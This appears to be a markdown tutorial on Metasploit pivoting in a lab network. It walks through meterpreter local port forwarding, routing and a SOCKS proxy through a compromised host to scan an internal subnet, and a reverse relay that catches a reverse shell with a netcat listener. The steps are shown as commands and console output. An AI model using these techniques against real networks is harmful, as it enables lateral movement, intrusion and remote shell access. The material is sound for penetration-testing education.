 # Metasploit Port Tunneling for exploitation

## Scenario 1: 
- The service of my target machine (10.10.1.10) is serving only at lo interface at 127.0.0.1:25. It does not serve at 0.0.0.0:25.
- I have an active meterpreter session for this machine.
- my host machine is at 10.10.1.32.

Technique: Local Port Forwarding via meterpreter portfwd.

```sh
meterpreter > netstat

Connection list
===============

    Proto  Local address     Remote address   State        User  Inode  PID/Program name
    -----  -------------     --------------   -----        ----  -----  ----------------
    tcp    127.0.0.1:25      0.0.0.0:*        LISTEN       0     0
    tcp    10.10.1.10:46242  10.10.1.32:443   ESTABLISHED  0     0

meterpreter > portfwd add -l 2525 -p 25 -r 127.0.0.1
[*] Forward TCP relay created: (local) :2525 -> (remote) 127.0.0.1:25
meterpreter > portfwd list

Active Port Forwards
====================

   Index  Local         Remote        Direction
   -----  -----         ------        ---------
   1      0.0.0.0:2525  127.0.0.1:25  Forward

1 total active port forwards.
```
This will set up a listening port on my host machine at port 2525, which will forward the traffic to 127.0.0.1:25 on the target's machine.
```sh
nc -nv 127.0.0.1 2525
(UNKNOWN) [127.0.0.1] 2525 (?) open
220 WELCOME TO ESMTP
^C
```
I was able to talk to the SMTP server that was at the 127.0.0.1 interface.

## Scenario 2: 
- I have exploited a machine (10.10.1.10) that has access to another internal admin network on another network interface eth2 (172.16.1.10).
- I would like to perform port scanning on the intranet network.

Technique: Add Route, Add Socks proxy

```sh
msf6 > sessions

Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell linux            SSH root @           10.10.1.32:35981 -> 10.10.1.10:22 (10.10.1.10)
  2         meterpreter x86/linux  root @ 172.16.1.100  10.10.1.32:4433 -> 10.10.1.10:43318 (10.10.1.10)
  
msf6 > route add 172.16.1.0/24 255.255.255.0 2
[*] Route added

msf6 > route get 172.16.1.2
172.16.1.2 routes through: Session 2
```
My active meterpreter session is at SESSION 2. Add a route with the following format: `route add <IP/CIDR> <SUBNET> <SESSION>`. 
Performing this will allow you to use metasploit modules to port scan the intranet network.

```
msf6 > use auxiliary/scanner/portscan/tcp 
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 172.16.1.2
RHOSTS => 172.16.1.2
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 80
PORTS => 80
msf6 auxiliary(scanner/portscan/tcp) > run

[+] 172.16.1.2:           - 172.16.1.2:80 - TCP OPEN
[*] 172.16.1.2:           - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
We can perform port scan via metasploit module. However, we can further expand this to tools outside of metasploit by setting up a SOCKs proxy.

```
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set VERSION 5
VERSION => 5
msf6 auxiliary(server/socks_proxy) > run -j
[*] Auxiliary module running as background job 1.
[*] Starting the SOCKS proxy server
```
We set up a SOCK5 proxy and configure our `proxychains.conf` to use 127.0.0.1:9050.

```
(host)# proxychains curl -v http://172.16.1.2/ 
ProxyChains-3.1 (http://proxychains.sf.net)
*   Trying 172.16.1.2:80...
* Connected to 172.16.1.2 (127.0.0.1) port 80 (#0)
...
```
We have more flexibility with what tools to use with this Socks proxy set up. 

## Scenario 3:
- I have gained access to intranet admin web portal (172.16.1.2:80) via my exploited jump host (10.10.1.10 or 172.16.1.10) via Scenario 2.
- I found a vulnerability on 172.16.1.2:80
- I want to get a reverse connection back to my host machine (10.10.1.32) via tunneling through jump host at 172.16.1.10:4444.

Technique: portfwd reverse relaying

```
msf6 post(multi/manage/sudo) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > portfwd list

No port forwards are currently active.

meterpreter > portfwd add -R -L 10.10.1.32 -l 4443 -p 4444
[*] Reverse TCP relay created: (remote) :4444 -> (local) 10.10.1.32:4443

meterpreter > background

(host)# nc -nlvp 4443
```
portfwd is a meterpreter feature that supports relaying. We specify `-R` for reverse relaying. The `-L` option is the IP of host machine and `-l` is our netcat listener while `-p` will open a listening port on our jump host at `0.0.0.0:4444`.

```
(host)# proxychains exploit.sh --lhost=172.16.1.10 --lport=4444
```
We trigger our reverse shell to connect to our jumphost at 172.16.1.0:4444 which will get relayed back to our host's netcat. 

